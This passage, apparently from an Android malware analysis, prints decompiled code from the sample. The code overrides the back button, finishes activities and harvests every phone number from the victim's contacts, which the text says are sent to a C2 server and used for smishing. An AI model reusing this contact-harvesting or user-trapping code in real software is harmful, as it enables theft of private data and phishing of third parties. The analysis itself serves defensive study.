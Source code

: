 ```cs
            viewerActivityInterfaceImpl$LifeCycleListener0.onResume();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public boolean overrideBackPress(Activity activity0) {
        return true;
    }

    private void startAppById(Context context0, String s) {
        try {
            context0.startActivity(context0.getPackageManager().getLaunchIntentForPackage(s));
        }
        catch(ActivityNotFoundException unused_ex) {
        }
    }
}
```

## Steal contacts

The malware collect the contacts stored in the victim's device and send it to C2 server. And smishing the stolen numbers.

```cs
public static ContactsComponent get() {
        return ContactsComponent.instance;
    }

    private List getContactList() {
        ArrayList arrayList0 = new ArrayList();
        ContentResolver contentResolver0 = this.context().getContentResolver();
        Cursor cursor0 = contentResolver0.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        if((cursor0 == null ? 0 : cursor0.getCount()) > 0) {
            while(cursor0 != null && (cursor0.moveToNext())) {
                String s = cursor0.getString(cursor0.getColumnIndex("_id"));
                cursor0.getString(cursor0.getColumnIndex("display_name"));
                if(cursor0.getInt(cursor0.getColumnIndex("has_phone_number")) <= 0) {
                    continue;
                }

                Cursor cursor1 = contentResolver0.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{s}, null);
                while(cursor1.moveToNext()) {
                    arrayList0.add(cursor1.getString(cursor1.getColumnIndex("data1")));
                }

                cursor1.close();
            }
        }

        if(cursor0 != null) {
            cursor0.close();
        }

        return arrayList0;
```